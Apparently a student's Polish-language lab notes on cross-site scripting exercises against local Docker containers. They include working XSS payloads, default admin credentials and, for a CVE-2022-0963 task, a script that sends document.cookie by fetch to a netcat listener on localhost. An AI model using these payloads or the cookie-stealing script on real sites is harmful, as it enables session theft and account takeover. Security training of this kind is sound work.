 ## Problem z podmanem (wymiana na Dockera)

https://medium.com/@nocerainfosec/docker-on-parrot-os-security-5-3-a-fresh-and-foolproof-installation-guide-5d8e9cd9e159

## Podniesienie kontenera z docker-compose podanym w pliku

`docker compose -f <nazwa_pliku_z_docker_compose>.yml up`

# XSS ([lab8.pdf]())

**Payloady** (a raczej ich kawałki w JS)

- `alert("Jakiś tekst")` → wyświetla okienko popup z treścią w nawiasach

- `document.cookie` → jeśli nie ustawiono flagi `HttpOnly`, wyświetla cookie

- `<script>`Kod w JS`</script>` → nesting skryptu w php/html

## Zadanie 9.1

![](screenshots/XSS/zadanie1.png)

- wchodzimy na serwer `localhost:9091/admin/index.php`

- dane do logowania są w docker compose: `admin:password`

- przechodzimy do tworzenia nowej ankiety

- w nazwie wpisujemy payload, np `a'<script>alert(document.cookie)</script>`

- przechodzimy do podglądu ankiety. Pojawia się okienko, ale puste. To dlatego, że w cookie jest ustawiona flaga `HttpOnly: true`

## Zadanie 9.2

![Zadanie 3](./screenshots/XSS/zadanie2.png)

- wchodzimy na serwer `localhost:9092/admin/index.php`

- `admin:password`

- sytuacja dokładnie taka sama jak powyżej

## Zadanie 9.3

![](./screenshots/XSS/zadanie3.png)

- wchodzimy na serwer `localhost:9094/admin/index.php`

- `admin:password`

- WRÓCIĆ DO TEGO CUDEŃKA

## Zadanie 9.4

![](./screenshots/XSS/zadanie4.png)

- `docker run -dp 9094:80 mazurkatarzyna/cwe-79-ex4:latest`

- Uruchamiamy aplikację na porcie 9094 localhosta

- Ustawiamy dane (np. a: a: a: a) i uruchamiamy instalację. Kontener o dziwo nie padł. 

- Zapoznajemy się z opisem podatności na huntr.dev: [CVE-2022-0963]([huntr - The world’s first bug bounty platform for AI/ML](https://huntr.com/bounties/a89a4198-0880-4aa2-8439-a463f39f244c)

- Przygotowujemy payload podobny jak do tego ze strony. Np.
  `<x:script xmlns:x="http://www.w3.org/1999/xhtml">alert(document.cookie)</x:script>`. Powyższe cudo wyświetli nam wszystkie pliki cookie ze strony.

- Aby wysłać coś na inny serwer, można posłużyć się [na przykład tym poradnikiem]([XMLHttpRequest: send() method - Web APIs | MDN](https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest/send). Ja spróbuję
  
  - uruchomić netcata na porcie 1111 localhosta
    `nc -l -p 1111` (na wszystkich interefjsach) lub `netcat -l 127.0.0.1 -p 1111` (tylko na localhost)
  
  - przygotować odpowiedni skrypt w javascripcie, np:
    
    ```
    <x:script xmlns:x="http://www.w3.org/1999/xhtml">
      fetch("http://127.0.0.1:1111/?cookie=" + encodeURIComponent(document.cookie))
    </x:script>
    
    ```
    
    ![](screenshots/2025-01-25-14-13-40-image.png)

- Aby dodać do aplikacji nowego usera, trzeba podglądnąć request który to robi i spreparować taki sam wstawiając w odpowiednie miejsce wartość cookie. 
  
  

## Zadanie 9.5

![](./screenshots/XSS/zadanie5.png)

## Zadanie 9.6

![](./screenshots/XSS/zadanie6.png)

## Zadanie 9.7

![](./screenshots/XSS/zadanie7.png)

## Zadanie 9.8

![](./screenshots/XSS/zadanie8.png)
